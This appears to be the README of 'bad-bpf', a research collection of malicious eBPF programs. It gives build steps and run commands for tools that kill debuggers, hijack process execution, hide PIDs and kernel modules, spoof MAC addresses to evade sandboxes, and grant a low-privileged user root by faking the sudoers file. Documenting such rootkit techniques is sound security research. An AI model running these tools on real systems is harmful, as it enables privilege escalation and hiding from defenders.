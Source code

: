 # Bad BPF
A collection of malicious eBPF programs that make use of eBPF's ability to
read and write user data in between the usermode program and the kernel.

- [Overview](#Overview)
- [To Build](#Build)
- [To Run](#Run)
- [Availible Programs](#Programs)


# Overview
See my blog for an overview on how these programs work and why
this is interesting: https://blog.tofile.dev/2021/....

# Build
To use pre-build binaries, grab them from the [Releases](https://github.com/pathtofile/bad-bpf/releases) page.

To build from source, do the following:

## Dependecies
As this code makes use of CO-RE, it requires a recent version of Linux that has BTF Type information.
See [these notes in the libbpf README](https://github.com/libbpf/libbpf/tree/master#bpf-co-re-compile-once--run-everywhere)
for more information. For example Ubuntu requries `Ubuntu 20.10`+.

To build it requires these dependecies:
- zlib
- libelf
- libbfd
- clang 11
- make

On Ubuntu these can be installed by
```bash
sudo apt install build-essential clang-11 libelf-dev zlib1g-dev libbfd-dev libcap-dev libfd-dev
```

## Build
To Build from source, recusivly clone the respository the run `make` in the `src` directory to build:
```bash
git clone --recusrive https://github.com/pathtofile/bad-bpf.git
cd bad-bpf/src
make
```
The binaries will built into `bad-bpf/src/bin`.

# Run
To run, launch each program as `root`. Every program has a `--help` option
that has required arguemnts and examples.

# Programs
## Common Arguments
As well as `--help`, every program also has a `--target-ppid`/`-t`.
This option restricts the programs' operation to only programs that are children
of the process matching this PID. This demonstrates to how affect some programs, but not others.


- [BPF-DOS](#BPF-Dos)
- [Exec-Hijack](#Exec-Hijack)
- [Pid-Hide](#Pid-Hide)
- [Sudo-Add](#Sudo-Add)
- [Text-Replace](#Text-Replace)
    - [Kernel Module hiding](#Text-Replace)
    - [MAC Address spoofer](#Text-Replace)

## BPF-Dos
```bash
sudo ./bpfdos
```
This program raises a `SIG_KILL` signal to any program attempting to use the `ptrace` syscall, e.g. `strace`.
Once bpf-dos starts you can test it by running:
```bash
strace /bin/whoami
```


## Exec-Hijack
```bash
sudo ./exechijack
```
This program intercepts all `execve` calls (used to create new processes) and instead makes then call
`/a`. To run, first ensure there is a program in the root dir `/a` (probably best to make is executable by all).
`bad-bpf` builds a simple program `hijackee` that simply prints out the `uid` and `argv[0]`, so you can use that:
```bash
make
sudo cp ./bin/hijackee /a
sudo chmod ugo+rx /a
```

Then just run `sudo ./bin/exechijack`.


## Pid-Hide
```
sudo ./pidhide --pid-to-hide 2222
```
This program hides the process matching this pid from tools such as `ps`.

It works by hooking the `getdents64` syscall, as `ps` works by looking for every sub-folder
of `/proc/`. PidHide unlinks the folder matching the PID, so `ps` only sees the folders before
and after it.


## Sudo-Add
```
sudo ./sudoadd --username lowpriv-user
```
This program allows a normally low-privledged user to use `sudo` to become root.

It works by intercepting `sudo`'s reading of the `/etc/sudoers` file, and overwriting the first line
with `<username> ALL=(ALL:ALL) NOPASSWD:ALL #`. This tricks sudo into thinking the user is allowed to become
root. Other programs such as `cat` or `sudoedit` are unnafected, so to those programs the file is unchanged
and the user does not have those privliges. The `#` at the end of the line ensures the rest of the line
is trated as a comment, so it doesn't currup the file's logic.

## Text-Replace
```
sudo ./textreplace --filename /path/to/file --input foo --replace bar
```
This program replaces all text matching `input` in the file with the `replace` text.
This has a number of uses, for example:

To hide kernel module `joydev` from tools such as `lsmod`:
```bash
./textreplace -f /proc/modules -i 'joydev' -r 'cryptd'
```

Spoof the MAC address of the `eth0` interface:
```bash
/textreplace -f /sys/class/net/eth0/address -i '00:15:5d:01:ca:05' -r '00:00:00:00:00:00'
```
Malware conducting anti-sandbox checks might check the MAC address to look for signs it is
running inside a Virtual Machine or Sandbox, and not on a 'real' machine.


**NOTE:** Both `input` and `replace` must be the same length, to avoid adding NULL characters to the
middle of a block of text. To enter a newline from a bash prompt, use `$'\n'`, e.g. `--replace $'text\n'`.


## Text-Replace2
```bash
bpftool
bpftool map dump name map_text
bpftool map lookup name map_text key hex 01 00 00 00
bpftool map update name map_text key hex 01 00 00 00 value hex 61 61 61 61 61 61 00 00 00 00 00 00 00 00 00 00 00 00 00 00 06 00 00 00
```
